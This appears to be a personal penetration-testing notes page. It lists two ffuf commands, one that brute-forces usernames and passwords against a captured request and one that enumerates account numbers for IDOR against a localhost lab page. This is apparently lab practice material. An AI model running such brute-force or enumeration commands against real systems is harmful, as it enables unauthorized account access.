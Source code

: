 
## Brute force username and Password


```bash
ffuf -request tmp.txt -request-proto http -mode clusterbomb -w /usr/share/seclists/Passwords/pass5.txt:FUZZPASSWORD -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZUSERNAME -fs 3256
```

Learn more here: [[Jun 19, 2024]]

## IDOR account number scanning

```bash
ffuf -u 'http://localhost/labs/e0x02.php?account=FUZZ' -w numbers.txt -mr 'admin'
```

Learn more here: [[Jun 20, 2024]]